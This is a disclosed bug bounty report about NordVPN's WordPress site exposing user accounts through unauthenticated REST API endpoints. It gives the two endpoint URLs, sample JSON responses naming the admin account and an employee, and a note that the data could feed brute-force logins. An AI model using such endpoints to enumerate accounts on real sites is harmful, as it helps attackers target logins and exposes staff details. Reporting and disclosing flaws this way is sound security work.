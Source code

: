 # Disclosure of User Information

## Report Details
- **Report ID**: 753725
- **URL**: https://hackerone.com/reports/753725
- **State**: Closed
- **Severity**: low
- **Submitted**: 2019-12-07T17:18:15.954Z
- **Disclosed**: 2020-01-16T01:52:02.714Z

## Reporter
- **Username**: shardulb_23
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nordsecurity

## Vulnerability Information
Hi Team,
 
We can get information about the users registered (such as: id, name, login name, etc.) and employees of NordVPN without authentication on https://www.nordvpn.com

Vulnerable URL:  https://nordvpn.com/wp-json/wp/v2/users/
Vulnerable URL: https://nordvpn.com/?rest_route=/wp/v2/users/

POC: Screenshots are attached 
---------------------------------------------------------------------------------------------------------------------------------------
Response 1: 
{
  "id": 1,
  "name": "21232f297a57a5a743894a0e4a801fc3",
  "url": "",
  "description": "",
  "link": "",
  "slug": "admin",
  "avatar_urls": {
    "24": "https://secure.gravatar.com/avatar/2a6282462b7001cbf7ec9d1e2c9d1053?s=24&d=mm&r=g",
    "48": "https://secure.gravatar.com/avatar/2a6282462b7001cbf7ec9d1e2c9d1053?s=48&d=mm&r=g",
    "96": "https://secure.gravatar.com/avatar/2a6282462b7001cbf7ec9d1e2c9d1053?s=96&d=mm&r=g"
  },
  "meta": [],
  "_links": {
    "self": [
      {
        "href": "https://nordvpn.com/wp-json/wp/v2/users/1"
      }
    ],
    "collection": [
      {
        "href": "https://nordvpn.com/wp-json/wp/v2/users"
      }
    ]
  }
}
----------------------------------------------------------------------------------------------------------------
Response 2:
{
  "id": 8,
  "name": "Christina Craig",
  "url": "",
  "description": "Christina is a community manager and the heart, the voice and the soul of NordVPN. She is always up for a conversation with our community of users and blog readers.",
  "link": "",
  "slug": "christina",
  "avatar_urls": {
    "24": "https://secure.gravatar.com/avatar/f956d82ca0b55da2fa45d6f1d062d18e?s=24&d=mm&r=g",
    "48": "https://secure.gravatar.com/avatar/f956d82ca0b55da2fa45d6f1d062d18e?s=48&d=mm&r=g",
    "96": "https://secure.gravatar.com/avatar/f956d82ca0b55da2fa45d6f1d062d18e?s=96&d=mm&r=g"
  },
  "meta": [],
  "_links": {
    "self": [
      {
        "href": "https://nordvpn.com/wp-json/wp/v2/users/8"
      }
    ],
    "collection": [
      {
        "href": "https://nordvpn.com/wp-json/wp/v2/users"
      }
    ]
  }
}
------------------------------------------------------------------------------------------------------------------------------------
Thanks and waiting for your response.

## Impact

1) Attacker can user these valuable information for advance attack as bruteforce login.
2)It is possible to get all the users registered on the system and create a bruteforce directed to these users.

## Attachments
- adminuser.PNG
- User_details.PNG
- Userdetails.PNG
- Userdetails2.PNG
